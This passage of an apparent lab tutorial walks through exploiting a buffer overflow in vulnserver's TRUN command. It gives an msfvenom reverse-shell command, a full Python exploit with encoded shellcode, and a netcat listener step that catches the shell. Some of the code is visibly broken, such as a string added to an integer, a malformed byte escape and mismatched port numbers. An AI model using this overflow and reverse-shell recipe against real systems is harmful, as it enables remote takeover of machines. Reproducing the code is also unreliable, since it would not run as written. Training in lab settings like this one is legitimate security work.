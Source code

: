 Generating shellcode means we need a way in which our victim is going to connect back to us, We will be using **msfvenom** for this, to generate our payload, the command will be :

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.157 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"  
```

**LHOST:** the IP in which the target is gonna connect back to
**LPORT:** the port in which target will connect back to
**EXITFUNC:** Makes connection more stable
**-f:** for file type in this case C
**-a:** for architecture, could be x64 or x86
**-b:** for bad characters

- Paste this command into your terminal and you should get a payload

![](https://i.imgur.com/fTp8ZvG.png)

Now insert this payload into this python script replacing the value of the variable `shellcode` with the payload 

```python
#!/usr/bin/python
 
import sys, socket

overflow = ("\xbe\xa0\x7a\x1b\xf1\xdb\xdf\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x70\x12\x83\xc0\x04\x03\xd0\x74\xf9\x04\xec"
"\x61\x7f\xe6\x0c\x72\xe0\x6e\xe9\x43\x20\x14\x7a\xf3\x90"
"\x5e\x2e\xf8\x5b\x32\xda\x8b\x2e\x9b\xed\x3c\x84\xfd\xc0"
"\xbd\xb5\x3e\x43\x3e\xc4\x12\xa3\x7f\x07\x67\xa2\xb8\x7a"
"\x8a\xf6\x11\xf0\x39\xe6\x16\x4c\x82\x8d\x65\x40\x82\x72"
"\x3d\x63\xa3\x25\x35\x3a\x63\xc4\x9a\x36\x2a\xde\xff\x73"
"\xe4\x55\xcb\x08\xf7\xbf\x05\xf0\x54\xfe\xa9\x03\xa4\xc7"
"\x0e\xfc\xd3\x31\x6d\x81\xe3\x86\x0f\x5d\x61\x1c\xb7\x16"
"\xd1\xf8\x49\xfa\x84\x8b\x46\xb7\xc3\xd3\x4a\x46\x07\x68"
"\x76\xc3\xa6\xbe\xfe\x97\x8c\x1a\x5a\x43\xac\x3b\x06\x22"
"\xd1\x5b\xe9\x9b\x77\x10\x04\xcf\x05\x7b\x41\x3c\x24\x83"
"\x91\x2a\x3f\xf0\xa3\xf5\xeb\x9e\x8f\x7e\x32\x59\xef\x54"
"\x82\xf5\x0e\x57\xf3\xdc\xd4\x03\xa3\x76\xfc\x2b\x28\x86"
"\x01\xfe\xff\xd6\xad\x51\x40\x86\x0d\x02\x28\xcc\x81\x7d"
"\x48\xef\x4b\x16\xe3\x0a\x1c\xd9\x5c\x14\x41\xb1\x9e\x14"
"\x68\x1e\x16\xf2\xe0\x8e\x7e\xad\x9c\x37\xdb\x25\x3c\xb7"
"\xf1\x40\x7e\x33\xf6\xb5\x31\xb4\x73\xa5\xa6\x34\xce\x97"
"\x61\x4a\xe4\xbf\xee\xd9\x63\x3f\x78\xc2\x3b\x68\x2d\x34"
"\x32\xfc\xc3\x6f\xec\xe2\x19\xe9\xd7\xa6\xc5\xca\xd6\x27"
"\x8b\x77\xfd\x37\x55\x77\xb9\x63\x09\x2e\x17\xdd\xef\x98"
"\xd9\xb7\xb9\x77\xb0\x5f\x3f\xb4\x03\x19\x40\x91\xf5\xc5"
"\xf1\x4c\x40\xfa\x3e\x19\x44\x83\x22\xb9\xab\x5e\xe7\xd9"
"\x49\x4a\x12\x72\xd4\x1f\x9f\x1f\xe7\xca\xdc\x19\x64\xfe"
"\x9c\xdd\x74\x8b\x99\x9a\x32\x60\xd0\xb3\xd6\x86\x47\xb3"
"\xf2")

shellcode = "A" * 2003 + "\xaf\x11\x50\62" + "\x90" + 32 + overflow

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

Note that the `"\x90" + 32` in `shellcode = "A" * 2003 + "\xaf\x11\x50\62" + "\x90" + 32 + overflow` is called a noop which mean **No Operation**

- Save this script on Linux machine
- Start up a netcat listener on port 444 `nc -lvnp 4444` as specified port we stated in the command used to create the payload earlier
- Now start up vulnserver on your windows machine
- Run the script we saved and you should get a MS DOS shell